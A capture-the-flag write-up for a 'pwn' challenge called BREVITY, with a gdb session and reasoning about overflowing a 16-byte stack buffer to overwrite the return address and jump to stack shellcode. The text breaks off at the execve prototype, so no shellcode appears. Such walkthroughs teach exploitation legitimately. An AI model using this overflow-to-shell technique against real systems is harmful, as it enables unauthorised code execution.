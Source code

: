## BREVITY [200]

## Solution
The binary `read()`s 56 bytes from `stdin` to a buffer on the stack that is only 16 bytes in length. This means that bytes 16-19 will overwrite the return address of `main()` and we can execute arbitrary code. However, this means that we only have 56 - 20 = 36 bytes of code to work with to spawn a shell.
```
ameise@STAHLKERN:~/CS2015/pwn/200_BREVITY$ gdb ./brevity 
Reading symbols from ./brevity...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:
   0x080480aa <+0>:	    sub    esp,0x10
   0x080480ad <+3>:	    mov    edx,0x38
   0x080480b2 <+8>:	    mov    ecx,esp
   0x080480b4 <+10>:	mov    ebx,0x0
   0x080480b9 <+15>:	mov    eax,0x3
   0x080480be <+20>:	int    0x80
   0x080480c0 <+22>:	mov    ebx,0x1
   0x080480c5 <+27>:	mov    eax,0x4
   0x080480ca <+32>:	int    0x80
   0x080480cc <+34>:	add    esp,0x10
   0x080480cf <+37>:	ret    
End of assembler dump.
(gdb) break *0x080480b2
Breakpoint 1 at 0x80480b2
(gdb) break *0x080480cf
Breakpoint 2 at 0x80480cf
(gdb) run
Starting program: /home/ameise/CS2015/pwn/200_BREVITY/brevity 

Breakpoint 1, 0x080480b2 in main ()
(gdb) p/x $esp
$1 = 0xffff0c14
(gdb) c
Continuing.
aaaabbbbccccdddd
aaaabbbbccccdddd
�
Breakpoint 2, 0x080480cf in main ()
(gdb) p/x $esp
$2 = 0xffff0c24
```

The start of the buffer will be at `0xffff0c14` and the return address will be located at `0xffff0c24`. Our shellcode will then start directly after the return address at `0xffff0c28` (in fact, we will overwrite the legitimate return address to `0xffff0c28`.) The end of the bytes we are able to read in will be at `0xffff0c43`.

We will do a `syscall` to `execve()` in order to spawn a shell. `execve()` has the following prototype:
```C
int execve(const char *filename, char *const argv[], char *const envp[]);
```
